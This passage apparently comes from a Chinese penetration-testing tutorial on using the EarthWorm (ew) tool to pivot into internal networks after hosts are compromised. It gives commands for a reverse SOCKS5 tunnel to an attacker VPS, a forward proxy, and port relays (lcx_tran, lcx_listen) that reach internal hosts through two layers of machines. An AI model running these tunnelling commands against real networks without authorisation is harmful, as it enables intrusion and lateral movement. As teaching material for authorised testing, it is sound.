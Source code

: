 这条命令表示在本地开启 socks 5 服务，并反弹到 vps 的 4444 端口，如果代理建立成功，在 VPS 端就会看到 `rssocks cmd_socket OK!` 的提示。

最后，代理 vps 的 1080 端口就可以访问到目标主机的内网了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-06-09_10-24-45.png)

#### c、二级网络环境（一）

有这样的一个网络环境，目标主机A有两个网卡，一个内网地址一个公网地址，但这个主机只能访问内网主机B不能访问其他内网资源，而内网主机B不能访问外网但是能访问内网资源。

在拿到这两台主机权限后，就可以使用 ew 进行二级跳板访问到内网资源。

```
内网主机A（有公网IP） --》内网主机B --》内网资源
```

在内网主机B上，开启正向连接代理

```
ew -s ssocksd -l 4444
```

```
> .\ew_for_Win.exe -s ssocksd -l 4444
```

在内网主机A上

```
ew -s lcx_tran -l 1080 -f hostB_ip -g 4444
```

```
> ./ew_for_linux64 -s lcx_tran -l 1080 -f 192.168.7.110 -g 4444
```

这条命令表示将 1080 端口收到的代理请求转发到内网主机 B 192.168.7.110 的 4444 端口，此时就可以通过访问内网主机 A 的外网 IP 的 1080 端口访问到内网主机 B 上架设的 socks5 代理了。

#### d、二级网络环境（二）

在上面的环境中，内网主机 A 有公网 IP，如果没有公网 IP 的情况下，又该怎么办呢？这时候就需要结合反向连接了，因此需要一台公网的 VPS 主机。

```
VPS --》内网主机A --》内网主机B --》内网资源
```

在公网 VPS 上

```
ew -s lcx_listen -l 1080 -e 4444
```

```
> ./ew_for_linux64 -s lcx_listen -l 1080 -e 4444rcsocks 0.0.0.0:1080 <--[10000 usec]--> 0.0.0.0:4444init cmd_server_for_rc herestart listen port here
```

表示将 1080 收到的 代理请求转发到 4444 端口上

在内网主机 B 上

```
ew -s ssocksd -l 5555
```

